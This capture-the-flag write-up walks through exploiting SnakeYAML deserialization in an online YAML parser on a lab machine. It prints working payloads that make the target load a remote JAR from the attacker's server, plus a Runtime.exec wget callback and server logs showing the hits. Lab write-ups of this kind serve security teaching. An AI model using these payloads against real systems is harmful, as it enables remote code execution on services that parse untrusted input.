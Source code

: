 
## Web

The web page is an Online YAML Parser. We quickly guess that this would be about
YAML deserialization. A few "random" data generate a Java stack trace indicating
the use of the Snake YAML library.

A Google search lead us to a
[medium article about exploiting YAML deserialization](https://medium.com/@swapneildash/snakeyaml-deserilization-exploited-b4a2c5ac0858)

We run an python http server and use the following payload

    :::text
    !!javax.script.ScriptEngineManager [
      !!java.net.URLClassLoader [[
        !!java.net.URL ["http://10.10.14.16:8000"]
      ]]
    ]

Despite the "error" message on the website we still got a hit on our Python
HTTP server.

    ::text
    $ python3 -m http.server
    Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
    10.129.98.255 - - [20/Feb/2021 04:25:51] "GET / HTTP/1.1" 200 -

A link in the [medium article](https://medium.com/@swapneildash/snakeyaml-deserilization-exploited-b4a2c5ac0858)
lead us to a [github repository for a YAML payloads generator](https://github.com/artsploit/yaml-payload).

We change the paylaod to `Runtime.getRuntime().exec("wget http://10.10.14.16:8000/boom");`
and send it to the YAML parser


    :::text
    !!javax.script.ScriptEngineManager [
      !!java.net.URLClassLoader [[
        !!java.net.URL ["http://10.10.14.16:8000/yaml-payload.jar"]
      ]]
    ]

We got an other Java error "java.lang.UnsupportedClassVersionError: artsploit/AwesomeScriptEngineFactory has been compiled by a more recent version of the Java Runtime (class file version 60.0), this version of the Java Runtime only recognizes class file versions up to 55.0".

On my Kali Linux I am using `openjdk` with Java 16 so our `javac` produced a
newer version of the code.

    :::text
    /usr/lib/jvm/java-16-openjdk-amd64/bin/javac

We just install Java 11 using `sudo apt-get install openjdk-11-jdk`
and run the specific Java 11 compiler. Then we got a hit with our "second" payload
